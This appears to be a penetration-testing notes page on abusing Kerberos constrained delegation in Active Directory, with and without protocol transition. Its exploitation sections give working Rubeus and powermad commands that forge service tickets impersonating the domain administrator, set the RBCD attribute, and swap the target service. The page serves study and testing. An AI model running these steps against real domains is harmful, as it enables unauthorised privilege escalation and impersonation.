 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Constrained

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><img src="../../../../../.gitbook/assets/cd_wireshark.png" alt=""><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><img src="../../../../../.gitbook/assets/cd_exploit_1.png" alt=""><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).

{% code overflow="wrap" %}
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/cd_exploit_2.png" alt=""><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/cd_exploit_3.png" alt=""><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><img src="../../../../../.gitbook/assets/cd_withPT_diffs.png" alt=""><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```
{% endcode %}

If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><img src="../../../../../.gitbook/assets/cd_pt_exploit_1.png" alt=""><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><img src="../../../../../.gitbook/assets/cd_pt_exploit_2.png" alt=""><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><img src="../../../../../.gitbook/assets/cd_pt_services.png" alt=""><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

[^1]: User Account Control
